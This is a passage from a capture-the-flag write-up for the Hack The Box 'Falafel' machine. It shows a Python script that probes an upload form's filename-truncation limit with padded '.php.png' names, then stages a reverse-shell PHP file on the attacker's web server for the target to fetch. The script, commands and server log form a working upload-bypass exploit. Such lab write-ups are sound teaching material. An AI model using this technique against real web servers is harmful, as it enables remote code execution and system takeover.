 ```bash
<SNIP>
```

It's trying to shortening the filename if it's too long.

Using this, here's the strategy :
- Prepare a payload like AAAA...AAAA.php.png
- Increasing the file name length until we find the limit of taking the file name as it is.
- Increasing 3 more As, we can make it shortening the file name with trimming the last `.png` part.

Here's the python script to find proper number of As.

```python
┌──(kali㉿kali)-[~/htb/falafel]
└─$ cat get_A_count.py                
import requests

target_url = "http://10.10.10.73/upload.php"
extension = ".php.png"

headers = {
        "Referer" : "http://10.10.10.73/upload.php",
        "Content-Type" : "application/x-www-form-urlencoded",
        "Cookie" : "PHPSESSID=58v4ia0qr6j6r7mkkq12ftk235"
}

length = 200
while True:
    filename = "A" * length + extension
    param_url = "http://10.10.14.4:8000/" + filename   

    data = {"url" : param_url}
    r = requests.post(target_url, headers=headers, data=data)


    if "Trying to shorten" in r.text:
        break

    length += 1

length += 3
print("The proper number of 'A' to upload php file is :",length)
```

And the returned A count was 232.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ python get_A_count.py       
The proper number of 'A' to upload php file is : 232
```

Then I prepared PHP file with the given number of "A"s. Also open a webserver.

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ cp rshell_9000.php AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png


┌──(kali㉿kali)-[~/htb/falafel]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.73 - - [07/Mar/2025 02:25:40] "GET /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png HTTP/1.1" 200 -
```